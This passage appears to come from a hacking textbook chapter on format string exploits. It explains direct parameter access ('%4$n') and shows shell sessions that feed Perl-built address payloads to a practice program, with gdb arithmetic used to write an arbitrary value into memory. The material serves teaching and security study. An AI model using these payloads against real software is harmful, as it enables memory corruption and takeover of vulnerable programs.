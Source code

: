# *__Direct Parameter Access__*

Direct parameter access is a way to simplify format string exploits. In the previous exploits, each of the format parameter arguments had to be stepped through sequentially. This necessitated using several __%x__ format parameters to step through parameter arguments until the beginning of the format string was reached. In addition, the sequential nature required three 4-byte words of junk to properly write a full address to an arbitrary memory location.

As the name would imply, direct parameter access allows parameters to be accessed directly by using the dollar sign qualifier. For example, __%n$d__ would access the _nth_ parameter and display it as a decimal number.

```c
printf("7th: %7$d, 4th: %4$05d\n", 10, 20, 30, 40, 50, 60, 70, 80);
```

The preceding _printf()_ call would have the following output:

<pre style="color: white;">
7th: 70, 4th: 00040
</pre>

First, the _70_ is outputted as a decimal number when the format parameter of __%7$d__ is encountered, because the _seventh parameter_ is _70_. The second format parameter accesses the _fourth parameter_ and uses a field width option of _05_. All of the other parameter arguments are untouched. This method of direct access eliminates the need to step through memory until the beginning of the format string is located, since this memory can be accessed directly. The following output shows the use of direct parameter access.

<pre style="color: white;">
reader@hacking:~/booksrc $ ./fmt_vuln AAAA%x%x%x%x
The right way to print user-controlled input:
AAAA%x%x%x%x
The wrong way to print user-controlled input:
AAAAbffff3d0b7fe75fc041414141
[*] test_val @ 0x08049794 = -72 0xffffffb8
reader@hacking:~/booksrc $ ./fmt_vuln AAAA%4\$x
The right way to print user-controlled input:
AAAA%4$x
The wrong way to print user-controlled input:
AAAA41414141
[*] test_val @ 0x08049794 = -72 0xffffffb8
reader@hacking:~/booksrc $
</pre>

In this example, the beginning of the format string is located at the _fourth parameter_ argument. Instead of stepping through the first three parameter arguments using __%x__ format parameters, this memory can be accessed directly. Since this is being done on the command line and the dollar sign is a special character, it must be escaped with a backslash. This just tells the command shell to avoid trying to interpret the dollar sign as a special character. The actual format string can be seen when it is printed correctly.

Direct parameter access also simplifies the writing of memory addresses. Since memory can be accessed directly, there’s no need for four-byte spacers of junk data to increment the byte output count. Each of the %x format parameters that usually performs this function can just directly access a piece of memory found before the format string. For practice, let’s use direct parameter access to write a more realistic-looking address of _0xbffffd72_ into the variable __test_vals__.

<pre style="color: white;">
reader@hacking:~/booksrc $ ./fmt_vuln $(perl -e 'print "\x94\x97\x04\x08" . "\x95\x97\x04\x08"
. "\x96\x97\x04\x08" . "\x97\x97\x04\x08"')%4\$n
The right way to print user-controlled input:
????????%4$n
The wrong way to print user-controlled input:
????????
[*] test_val @ 0x08049794 = 16 0x00000010
reader@hacking:~/booksrc $ gdb -q
(gdb) p 0x72 - 16
$1 = 98
(gdb) p 0xfd - 0x72
$2 = 139
(gdb) p 0xff - 0xfd
$3 = 2
(gdb) p 0x1ff - 0xfd
$4 = 258
(gdb) p 0xbf - 0xff
$5 = -64
(gdb) p 0x1bf - 0xff
$6 = 192
(gdb) quit
reader@hacking:~/booksrc $ ./fmt_vuln $(perl -e 'print "\x94\x97\x04\x08" . "\x95\x97\x04\x08"
. "\x96\x97\x04\x08" . "\x97\x97\x04\x08"')%98x%4\$n%139x%5\$n
The right way to print user-controlled input:
????????%98x%4$n%139x%5$n
The wrong way to print user-controlled input:
????????
bffff3c0
b7fe75fc
[*] test_val @ 0x08049794 = 64882 0x0000fd72
reader@hacking:~/booksrc $ ./fmt_vuln $(perl -e 'print "\x94\x97\x04\x08" . "\x95\x97\x04\x08"
. "\x96\x97\x04\x08" . "\x97\x97\x04\x08"')%98x%4\$n%139x%5\$n%258x%6\$n%192x%7\$n
The right way to print user-controlled input:
????????%98x%4$n%139x%5$n%258x%6$n%192x%7$n
The wrong way to print user-controlled input:
????????
bffff3b0
b7fe75fc
0
8049794
[*] test_val @ 0x08049794 = -1073742478 0xbffffd72
reader@hacking:~/booksrc $
</pre>

Since the stack doesn’t need to be printed to reach our addresses, the number of bytes written at the first format parameter is _16_. Direct parameter access is only used for the __%n__ parameters, since it really doesn’t matter what values are used for the __%x__ spacers. This method simplifies the process of writing an address and shrinks the mandatory size of the format string.